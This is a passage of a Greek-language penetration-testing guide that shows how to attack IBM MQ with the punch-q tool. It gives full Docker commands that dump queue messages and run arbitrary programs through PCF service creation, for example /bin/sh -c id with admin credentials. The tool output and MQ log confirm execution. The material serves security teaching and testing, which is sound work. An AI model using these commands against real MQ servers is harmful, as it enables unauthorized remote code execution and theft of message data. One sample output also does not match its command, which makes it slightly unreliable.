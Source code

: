 ```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN messages dump
```
**Μη διστάσετε να επαναλάβετε όλες τις αναγνωρισμένες ουρές.**

### Εκτέλεση κώδικα

> Ορισμένες λεπτομέρειες πριν συνεχίσουμε: Το IBM MQ μπορεί να ελεγχθεί μέσω πολλών τρόπων: MQSC, PCF, Control Command. Ορισμένες γενικές λίστες μπορούν να βρεθούν στην [τεκμηρίωση του IBM MQ](https://www.ibm.com/docs/en/ibm-mq/9.2?topic=reference-command-sets-comparison).
> [**PCF**](https://www.ibm.com/docs/en/ibm-mq/9.3?topic=commands-introduction-mq-programmable-command-formats) (***Προγραμματιζόμενες Μορφές Εντολών***) είναι αυτό που επικεντρωνόμαστε για να αλληλεπιδράσουμε απομακρυσμένα με την περίπτωση. **punch-q** και επιπλέον **pymqi** βασίζονται σε αλληλεπιδράσεις PCF.
>
> Μπορείτε να βρείτε μια λίστα εντολών PCF:
> * [Από την τεκμηρίωση PCF](https://www.ibm.com/docs/en/ibm-mq/9.3?topic=reference-definitions-programmable-command-formats), και
> * [από σταθερές](https://www.ibm.com/docs/en/ibm-mq/9.3?topic=constants-mqcmd-command-codes).
>
> Μια ενδιαφέρουσα εντολή είναι η `MQCMD_CREATE_SERVICE` και η τεκμηρίωσή της είναι διαθέσιμη [εδώ](https://www.ibm.com/docs/en/ibm-mq/9.3?topic=formats-change-copy-create-service-multiplatforms). Δέχεται ως επιχείρημα μια `StartCommand` που δείχνει σε ένα τοπικό πρόγραμμα στην περίπτωση (παράδειγμα: `/bin/sh`).
>
> Υπάρχει επίσης μια προειδοποίηση για την εντολή στα έγγραφα: *"Προσοχή: Αυτή η εντολή επιτρέπει σε έναν χρήστη να εκτελέσει μια αυθαίρετη εντολή με εξουσία mqm. Εάν παραχωρηθούν δικαιώματα για τη χρήση αυτής της εντολής, ένας κακόβουλος ή απρόσεκτος χρήστης θα μπορούσε να ορίσει μια υπηρεσία που θα βλάψει τα συστήματα ή τα δεδομένα σας, για παράδειγμα, διαγράφοντας απαραίτητα αρχεία."*
>
> *Σημείωση: πάντα σύμφωνα με την τεκμηρίωση του IBM MQ (Administration Reference), υπάρχει επίσης ένα HTTP endpoint στο `/admin/action/qmgr/{qmgrName}/mqsc` για να εκτελέσετε την αντίστοιχη εντολή MQSC για τη δημιουργία υπηρεσίας (`DEFINE SERVICE`). Αυτό το θέμα δεν έχει καλυφθεί ακόμα εδώ.*

Η δημιουργία / διαγραφή υπηρεσίας με PCF για απομακρυσμένη εκτέλεση προγράμματος μπορεί να γίνει με **punch-q**:

**Παράδειγμα 1**
```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN command execute --cmd "/bin/sh" --args "-c id"
```
> Στα αρχεία καταγραφής του IBM MQ, μπορείτε να διαβάσετε ότι η εντολή εκτελέστηκε με επιτυχία:
>
> ```bash
> 2023-10-10T19:13:01.713Z AMQ5030I: Η εντολή '808544aa7fc94c48' έχει ξεκινήσει. ProcessId(618). [ArithInsert1(618), CommentInsert1(808544aa7fc94c48)]
> ```

Μπορείτε επίσης να απαριθμήσετε τα υπάρχοντα προγράμματα στη μηχανή (εδώ `/bin/doesnotexist` ... δεν υπάρχει):
```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN command execute --cmd "/bin/doesnotexist" --arg
s "whatever"
Command: /bin/doesnotexist
Arguments: -c id
Service Name: 6e3ef5af652b4436

Creating service...
Starting service...
The program '/bin/doesnotexist' is not available on the remote system.
Giving the service 0 second(s) to live...
Cleaning up service...
Done
```